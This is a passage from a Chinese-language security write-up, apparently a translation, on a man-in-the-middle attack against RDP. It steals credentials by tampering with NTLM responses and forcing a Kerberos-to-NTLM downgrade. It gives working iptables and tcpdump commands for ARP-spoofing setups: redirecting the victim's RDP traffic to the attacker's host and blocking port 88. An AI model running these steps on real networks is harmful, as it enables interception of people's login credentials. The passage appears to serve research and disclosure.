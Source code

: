 请注意，我们没有收到SSL警告。根据规范[19]，客户端将SSL证书的指纹发送到使用由CredSSP协议协商的密钥加密的服务器。

如果它与服务器证书的指纹不匹配，那么会话将会被终止。这就是为什么即使受害者提供不正确的凭据也不要紧的原因—— 我们可以看到（不正确的）密码。

但是，如果密码正确，我们将观察到一个TLS内部错误。

我想出的解决方法是直接篡改NTLM应答。我对Python脚本进行了相应的修改，通过更改NTLM应答让NTLM身份验证总是失败。不过，受害者是不会注意到这一点的，因为正如我们刚才看到的，我们可以将连接降级到TLS，这样会重新传输凭据。

但是，还有一件事需要注意。如果客户端会显示正在尝试连接一台加入域的计算机，那么它就不会使用NTLM，而是使用Kerberos，这意味着它将在建立RDP连接之前与域控制器联系以请求相应的ticket。这是一件好事，因为Kerberos的ticket对攻击者而言，要比没有“盐化”的NTLM应答更加微不足道。但是，如果攻击者处于MitM位置，那么他就可以阻止针对Kerberos服务的所有请求。如果客户端无法联系Kerberos服务，那会发生什么呢？实际上，它会退回到NTLM。

将这种攻击技术武器化 

到目前为止，我们一直在实验室环境下进行的。所以，受害者在RDP客户端中输入的不是我们的IP，而是他们自己的服务器的IP或主机名。有多种方法可以让我们成为中间人，但在这里我们将利用ARP欺骗。这种方法并不难，过一会儿就给出一个概念证明式的演示。由于这种攻击是在网络协议的第二层进行的，所以要求我们必须与受害者在同一个子网中。

在我们欺骗ARP回复并启用IPv4流量转发后，受害者和网关之间的所有通信都将通过我们的计算机。由于仍然不知道受害者输入的IP地址，所以仍然无法运行我们的Python脚本。

首先，我们创建一个iptables规则，丢弃受害者用于RDP服务器的SYN数据包： 

```
$ iptables -A FORWARD -p tcp -s "$VICTIM_IP" --syn --dport 3389 -j REJECT
```

我们不想重定向其他任何流量，因为受害者可能正在使用已建立的RDP连接，否则就会发生中断。如果我们这里不丢弃那些数据包的话，受害者就会与真正的主机建立连接，而我们则想让受害者与我们建立连接。

第二，我们等待来自受害者目的地端口为3389的TCP SYN分组，以便掌握原始目的地主机的地址。为此，我们可以使用tcpdump： 



```
$ tcpdump -n -c 1 -i "$IFACE" src host "$VICTIM_IP" and 
"tcp[tcpflags] &amp; tcp-syn != 0" and 
dst port 3389 2&gt; /dev/null | 
sed -e 's/.*&gt; ([0-9.]*).3389:.*/1/'
```

选项-c 1告诉tcpdump在第一个匹配数据包之后退出。这个SYN包将被丢弃，但这并不重要，因为受害者的系统很快就会再次尝试发送。

第三，我们将检索RDP服务器的SSL证书，并创建一个与原始证书具有相同公用名的新的自签名证书。我们还可以修正证书的到期日期，除非您对其指纹进行长时间的细致检查，否则它与原始文件很难区分。为此，我编写了一个小型的Bash脚本[23]来处理这项工作。

现在我们删除前面的iptables规则，并将受害者发送给RDP主机的TCP流量重定向到我们的IP地址： 



```
$ iptables -t nat -A PREROUTING -p tcp -d "$ORIGINAL_DEST" 
-s "$VICTIM_IP" --dport 3389 -j DNAT --to-destination "$ATTACKER_IP"
```

为了强制从Kerberos降级到NTLM，我们可以将受害者发送到88端口的所有TCP流量全部拦截： 



```
$ iptables -A INPUT -p tcp -s "$VICTIM_IP" --dport 88 
-j REJECT --reject-with tcp-reset
```

这样，我们就掌握了运行Python脚本所需的全部信息： 
